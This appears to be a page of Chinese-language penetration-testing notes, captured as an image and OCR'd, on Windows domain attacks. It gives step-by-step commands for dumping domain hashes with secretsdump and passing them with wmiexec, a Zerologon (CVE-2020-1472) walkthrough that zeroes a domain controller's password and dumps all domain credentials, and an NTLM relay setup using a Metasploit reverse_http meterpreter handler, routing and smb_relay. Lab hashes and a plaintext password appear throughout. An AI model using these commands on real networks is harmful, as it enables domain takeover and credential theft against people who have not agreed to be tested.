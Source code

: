 ~~~
7、导出HASH：
python3 secretsdump.py 'xiaodi.local/win-3c7ss32sq6r$@WIN-3C7SS32SQ6R.xiaodi.local' -hashes :10e02bef2258ad9b239e2281a01827a4
8、利用HASH：
python3 wmiexec.py xiaodi.local/administrator@192.168.1.15 -hashes aad3b435b51404eeaad3b435b51404ee:e6f01fc9f2a0dc96871220f7787164bd

~~~



#### NetLogon(CVE-2020-1472)

~~~
#横向移动-域控提权-CVE-2020-1472
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2012
Windows Server 2012 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 R2 (Server Core installation)
Windows Server 2016
Windows Server 2016 (Server Core installation)
Windows Server 2019
Windows Server 2019 (Server Core installation)
Windows Server, version 1903 (Server Core installation)
Windows Server, version 1909 (Server Core installation)
Windows Server, version 2004 (Server Core installation)

重置密码：
https://github.com/dirkjanm/CVE-2020-1472
恢复密码：
https://github.com/risksense/zerologon
https://github.com/SecureAuthCorp/impacket
0、获取计算机名：
nbtscan -v -h 192.168.3.21
1、连接DC清空凭证：
proxychains python cve-2020-1472-exploit.py owa 192.168.52.138
2、获取域内HASH:
proxychains python secretsdump.py owa\$@192.168.52.138 -just-dc -no-pass

python secretsdump.py "god/administrator":"hongrisec@2021@"@192.168.52.138
3、连接域控PTH：
python wmiexec.py -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21
4、后续恢复密码：
~~~



#### NTLM Relay中继攻击

~~~
//老规矩，在cs中上线提权到system后会话给MSF
msf:
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 4123
run
//设置路由
run autoroute -p
run post/multi/manage/autoroute
background
use exploit/windows/smb/smb_relay
set smbhost 192.168.52.138
set autorunscript post/windows/manage/migrate
~~~